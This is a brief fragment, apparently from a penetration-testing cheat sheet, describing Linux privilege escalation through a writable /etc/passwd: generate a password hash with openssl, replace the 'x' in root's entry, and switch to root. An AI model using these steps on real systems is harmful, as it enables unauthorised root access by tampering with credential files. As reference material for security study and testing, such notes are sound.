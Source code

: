 ### Passwd writable

If you can make `/etc/passwd` world writtable:
- Generate a password with `openssl`: `openssl passwd -1 -salt <user> <password>`
- Replace the first `x` from the first line with your hash
` `su - root`
